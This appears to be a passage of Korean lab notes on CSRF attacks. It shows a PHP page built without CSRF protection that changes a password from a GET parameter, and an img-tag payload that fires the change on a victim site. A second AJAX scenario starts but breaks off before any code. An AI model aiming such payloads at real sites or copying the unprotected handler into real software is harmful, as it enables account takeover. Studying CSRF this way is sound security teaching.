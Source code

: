 
## 공격 시라니오

1. GET 요청 기반 CSRF
    - 참고 사항
        - 피해자(관리자)가 2-1.php 페이지에 로그인한 상태
        - 이후 악성 페이지(2-1-1.html)의 이미지 태그를 통해 비밀번호 변경 요청을 자동 전송
    - 참고 파일
        - 2-1. php
        - 2-1-1.html
    - 공격 시나리오
        1. 사이트에 접속하여 인증 및 세션을 유지한 상태
            
            ```php
            <?php
            .
            .
            .
            
            session_start();
            .
            .
            .
            
            // 로그인된 사용자만 처리
            if (!isset($_SESSION['user'])) {
                die("Unauthorized");
            }
            
            if (isset($_GET['new_password'])) {
                // 실제로는 DB에 저장해야 함
                echo "비밀번호가 '" . htmlspecialchars($_GET['new_password']) . "' 로 변경되었습니다.";
            } else {
                echo "비밀번호가 지정되지 않았습니다.";
            }
            ?>
            
            ```
            
        2. 아래와 같은 HTML 태그를 기반으로 요청이 실행
            
            ```html
            <img src="http://victim.com/change_password.php?new_password=hacked123">
            ```
            
        

1. **AJAX 기반 CSRF**
    - 참고 사항
        - 피해자(관리자)가 2-1.php 페이지에 로그인한 상태
        - 이후 악성 페이지(2-1-1.html)의 이미지 태그를 통해 비밀번호 변경 요청을 자동 전송
    - 참고 파일
        - 2-2. php
        - 2-2-1.html
    - 공격 시나리오
        1. 사이트에 접속하여 인증 및 세션을 유지한 상태
            